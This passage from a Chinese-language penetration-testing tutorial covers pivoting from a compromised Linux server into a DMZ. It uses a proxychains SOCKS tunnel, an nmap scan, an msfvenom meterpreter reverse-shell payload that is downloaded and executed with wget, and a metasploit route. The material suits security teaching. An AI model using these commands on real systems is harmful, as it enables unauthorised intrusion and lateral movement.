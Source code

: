 剩下要做的就是让 FrontGun 服务器上的所有工具都使用刚才创建的这条隧道。幸运的是，并不需要重写服务器上的所有脚本。通过 Kali 自带的 Proxychains（以下译作“代理链”）工具就能处理解决该问题。像下面这样修改 /etc/proxychains.conf 配置文件：

```text
[ProxyList]
61 # add proxy here ... 62 # meanwile
63 # defaults set to "tor"
64 #socks4    127.0.0.1 9050
65 socks5    career.sph-assets.com 80
```

如果想通过proxychains 运行 nmap，只需要在 FrontGun 服务器运行以下命令：

```text
FrontGun$ proxychains nmap -sT 192.168.1.0/24
```

{% hint style="info" %}
提示： -sT 参数会强制 nmap 发起连接式扫描。否则流量不会经过代理链。
{% endhint %}

### 3.3.2 Meterpreter

之前的 maneuver 依赖于 **iptables** 来创建本地转发规则，该工具仅适用于 root 用户。我们不可能一直都有这么高的权限，可能是因为时间不够、兴趣不够、或者缺少 exploit 等原因。

出于完整性考虑，跟之前介绍隧道一样，我们详细看看 metasploit 的特性。首先，为 Linux 平台生成一个 meterpreter 执行文件，然后在 FrontGun 服务器创建一个监听器。

```text
FrontGun$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=FrontGun_IP LPORT=443 -f elf > package

FrontGun$ msfconsole
Msf> use exploit/multi/handler
Msf> set payload linux/x86/meterpreter/reverse_tcp Msf> set LHOST FRONTGUN_IP
Msf> set LPORT 443 Msf> run
```

接下来在 FrontGun 启动一个 HTTP 服务，从先前拿下的 Linux 服务器上下载该 meterpreter 文件并执行：

```text
FrontGun$ python -m SimpleHTTPServer 80
# 以下在蓝区的 Linux 服务器执行
Career# wget http://FrontGun/package
Career# chmod +x package && ./package
```

很快，在 FrontGun 服务器的屏幕上就弹出了 meterpreter 会话。 通过该会话，不仅可以将命令转发到已经拿下的服务器，还可以发到 DMZ 区的所有服务器。

要实现这一点，只需要告诉 metasploit 的模块，将所有命令通过这个 meterpreter 会话发送，同时给这个会话号（本例中是1）增加一条路由：

```text
meterpreter > (press Ctr+z) Background session 1? [y/N]
msf exploit(handler) > route add 192.168.1.0 255.255.255.0 1
[*] Route added
```

通过内部的 metasploit 扫描器快速测试一下，确认该路由工作正常：
